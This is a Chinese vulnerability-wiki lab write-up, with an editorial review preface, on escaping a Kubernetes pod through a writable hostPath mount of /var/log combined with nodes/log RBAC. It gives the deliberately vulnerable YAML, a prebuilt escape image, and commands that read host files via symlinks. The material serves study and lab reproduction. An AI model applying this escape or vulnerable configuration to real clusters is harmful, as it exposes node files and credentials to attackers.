




# 挂载-log-目录导致容器逃逸

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Kubernetes kubelet /logs 与 writable hostPath
- 文献类型：Kubernetes危险挂载/RBAC配置案例
- 版本、权限及部署边界：Pod可写挂载节点/var/log且SA具nodes/log读取权限；示例Docker18.09.3、Minikube1.35/K8s1.32，节点运行时/宿主边界需明确
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 开头仅说有权限读自己pod日志过宽，YAML实际授权nodes/log，全节点日志接口权限比pods/log大，必须精确区分
2. 把kubectl logs等同kubelet /logs/pods静态服务器混淆普通容器日志API与nodes/log文件接口，应核调用链
3. 实际效果读取节点文件，不等于获得宿主代码执行/root shell；说明Minikube虚拟机边界有价值，但YAML/环境可能Docker驱动需核
4. Docker旧日志符号链接布局与K8s1.32运行时要说明cri-dockerd/Minikube driver，不能按旧实现泛化所有CRI
5. 完整YAML与Aqua原研究/源码可追溯，集群级对象填写namespace字段不提供命名空间隔离；镜像latest需固定摘要
6. 删除Pod/namespace未必恢复在hostPath创建的符号链接及数据变化，应补现场恢复；无CVE属危险配置，图未视检

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts>
- 原文参考链接（未重新核验）：<https://github.com/danielsagi/kube-pod-escape>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md>
- 原文参考链接（未重新核验）：<https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml>
- 原文参考链接（未重新核验）：<https://github.com/danielsagi/kube-pod-escape/blob/master/escaper.yml>
- 原文参考链接（未重新核验）：<https://github.com/Threekiii/Vulnerability-Wiki>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

当 pod 以可写权限挂载了宿主机的 `/var/log` 目录，且 pod 里的 service account 有权限访问该 pod 在宿主机上的日志时，攻击者可以通过在容器内创建符号链接来完成简单逃逸。

下图展示了 `kubectl logs <pod-name>` 如何从 pod 中检索日志：




kubelet 会在宿主机上的 `/var/log` 目录中创建一个目录结构，如图符号①，代表节点上的 pod。但 `0.log` 实际上是一个符号链接，指向 `/var/lib/docker/containers` 目录中的容器日志文件。当使用 `kubectl logs <pod-name>` 命令查询指定 pod 的日志时，实际上是向 kubelet 的 `/logs/pods/<path_to_0.log>` 接口发起 HTTP 请求。对于该请求的处理逻辑如下：

`kubernetes\pkg\kubelet\kubelet.go:1371`

```go
if kl.logServer == nil {
		kl.logServer = http.StripPrefix("/logs/", http.FileServer(http.Dir("/var/log/")))
}
```

kubelet 会解析该请求地址，去 `/var/log` 对应的目录下读取 log 文件并返回。当 pod 以可写权限挂载了宿主机上的 `/var/log` 目录时，可以在该路径下创建一个符号链接，指向宿主机的根目录，然后构造包含该符号链接的恶意 kubelet 请求，宿主机在解析时会解析该符号链接，导致可以读取宿主机任意文件和目录。

参考链接：

- https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts
- https://github.com/danielsagi/kube-pod-escape

## 环境搭建

基础环境准备（Docker + Minikube + Kubernetes），可参考 [Kubernetes + Ubuntu 18.04 漏洞环境搭建](https://github.com/Threekiii/Awesome-POC/blob/master/%E4%BA%91%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/Kubernetes%20%2B%20Ubuntu%2018.04%20%E6%BC%8F%E6%B4%9E%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA.md) 完成。

本例中各组件版本如下：

```
Docker version: 18.09.3
minikube version: v1.35.0
Kubectl Client Version: v1.32.3
Kubectl Server Version: v1.32.0
```

通过 yaml 文件创建漏洞环境：

```
kubectl apply -f k8s_metarget_namespace.yaml
kubectl apply -f mount-var-log.yaml
```

执行完成后，K8s 集群内 `metarget` 命名空间下将会创建一个名为 `mount-var-log` 的 pod：

```
kubectl get pods -n metarget
-----
NAME            READY   STATUS    RESTARTS   AGE
mount-var-log   1/1     Running   0          28s
```




宿主机的 `/var/log` 被挂载在容器内部且该 pod 有权限访问日志。

> 如果此处报错 `ErrImagePull`，可以采用如下形式将镜像直接导入 minikube：

```
docker pull danielsagi/kube-pod-escape
minikube image load danielsagi/kube-pod-escape:latest
```

## 漏洞复现

mount-var-log.yaml 中使用的是 [该项目](https://github.com/danielsagi/kube-pod-escape) 中的镜像 `danielsagi/kube-pod-escape`。构建好的 pod 内部已经内置了漏洞利用代码，可通过自定义命令读取宿主机的任意文件或目录：

```
lsh 等于宿主机上的ls
cath 等于宿主机上的cat
```

执行以下命令进入容器:

```shell
kubectl exec -it mount-var-log -n metarget -- bash
```

执行命令：

```
kubectl exec -it mount-var-log -n metarget -- bash
root@mount-var-log:~/exploit# lsh /root
.bashrc
.kube/
.profile
.sudo_as_admin_successful
cdk/
```




> 由于我们是在 minikube 上运行 kubernetes，这里逃逸到的是 minikube 虚拟机，可以看到，pod 执行 `lsh /root` 后列出的目录确实是 minikube 虚拟机的 `/root` 目录。




## 环境复原

```
kubectl delete -f mount-var-log.yaml
kubectl delete -f k8s_metarget_namespace.yaml
```

## YAML

[k8s_metarget_namespace.yaml](https://github.com/Metarget/metarget/blob/master/yamls/k8s_metarget_namespace.yaml)

```
apiVersion: v1
kind: Namespace
metadata:
  name: metarget
```

mount-var-log.yaml，修改自 [kube-pod-escape/escaper.yml](https://github.com/danielsagi/kube-pod-escape/blob/master/escaper.yml)：

```
apiVersion: v1
kind: ServiceAccount
metadata:
  name: logger
  namespace: metarget
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: user-log-reader
  namespace: metarget
rules:
- apiGroups: [""]
  resources:
  - nodes/log
  verbs: ["get", "list", "watch"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: user-log-reader
  namespace: metarget
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: user-log-reader
subjects:
- kind: ServiceAccount
  name: logger
  namespace: metarget
---
apiVersion: v1
kind: Pod
metadata:
  name: mount-var-log
  namespace: metarget
spec:
  serviceAccountName: logger
  containers:
  - name: escaper
    image: danielsagi/kube-pod-escape
    imagePullPolicy: IfNotPresent
    volumeMounts:
    - name: logs
      mountPath: /var/log/host
  volumes:
  - name: logs
    hostPath:
      path: /var/log/
      type: Directory
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
